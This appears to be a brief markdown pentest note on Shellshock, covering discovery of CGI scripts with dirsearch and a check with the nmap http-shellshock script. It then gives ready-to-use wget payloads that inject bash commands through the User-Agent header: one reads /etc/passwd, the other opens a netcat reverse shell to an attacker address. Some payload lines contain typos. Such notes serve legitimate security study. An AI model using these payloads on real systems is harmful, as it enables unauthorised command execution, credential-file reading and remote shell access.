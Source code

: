 #  Shellshock

- We need to first identify the CGI programs in the vulnerable machine with tools such as ***Dirsearch***
> Dirsearch is similar to other tools such as the dirb, dirbuster and is used to execute dictionary based attacks on web servers to search for interesting files, directories etc.
#### Usage - ***dirsearch -u <$url> -e cgi -r ***
> Here  ***-u*** is used to state the url of the target 
>  ***-e*** is extensions 
>  ***-r*** is recursive 
#### Example of a dirsearch -
>dirsearch -u http://192.168.1.1/ -e cgi -r

- Now we move on to verify whether the cgi is vulnerable to shellshock or not. We can use ***http-shellshock*** nmap nse script to do it.
![[Pasted image 20211220231245.png]]

## Exploitation of Shellshock

- Basically, we can execute any commands we want on the remote system as the web server user if successful.
> wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat/etc/passwd" http://192.168.13.29/cgi-bin/login.cgi && cat login.cgi

-Similarly we can now execute a nc reverse shell command and get shell access
> wget -U "() { foo;};echo: /bin/nc [attacker ip] 1234 -e /bin/sh" http://192.168.13.29/cgi-bin/login.cgi
